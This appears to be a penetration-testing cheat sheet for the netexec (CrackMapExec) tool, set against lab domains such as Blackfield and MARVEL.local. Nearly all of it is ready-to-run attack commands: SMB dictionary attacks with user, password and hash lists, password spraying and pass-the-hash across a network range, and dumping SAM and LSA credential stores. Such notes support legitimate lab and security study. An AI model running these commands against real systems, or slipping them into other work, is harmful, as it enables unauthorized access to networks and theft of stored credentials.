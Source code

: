 [[8._BloodHound]]

**netexec is heavily used for credential enumeration across several protocols (ldap, ssh, smb, mssql, winrm).  CME works alongside popular modules to become an extremely powerful resource.**

```bash
sudo apt install netexec
```

```bash
netexec --help
```

#### Dictionary attack (Hashes)
Here we are attacking SMB protocol with a list of users and hashes against the domain of "Blackfield".
```bash - kali
netexec smb $TARGET -u Blackfield/users.txt -H Blackfield/hashes.txt
```

#### Dictionary attack (Passwords)
Here we found a valid username "neil", and are attempting to find a valid password by utilizing a wordlist.
```bash - kali
netexec smb $TARGET -u neil -p /usr/share/seclists/Passwords/Common-Credentials/best1050.txt
```

#### User wordlist attack with single password
Here we found a valid password "SecretOrg!", and are attempting to find a valid user by utilizing a wordlist.
```bash
netexec smb secret.csl -u users.txt -p 'SecretOrg!'
```

#### Spray username and hash
Here we found valid username and hash, and are spraying a network range to find a working target.
```bash
netexec smb x.x.x.0/24 -u fcastle -d MARVEL.local -H 64f12cddaa88057e06a81b54e73b949b
```


#### Spray username and password
Here we found valid username and password, and are spraying a network range to find a working target.
```bash
netexec smb x.x.x.0/24 -u fcastle -d MARVEL.local -p Password1
```


#### sam file dump with netexec
Here we found valid username and password, and are spraying a network range to dump sam hashes.
```bash
netexec smb x.x.x.0/24 -u fcastle -d MARVEL.local -p Password1 --sam
```

#### lsa file dump with netexec
Here we found valid username and password, and are spraying a network range to dump sam hashes.
```bash
netexec smb x.x.x.0/24 -u fcastle -d MARVEL.local -p Password1 --lsa
```
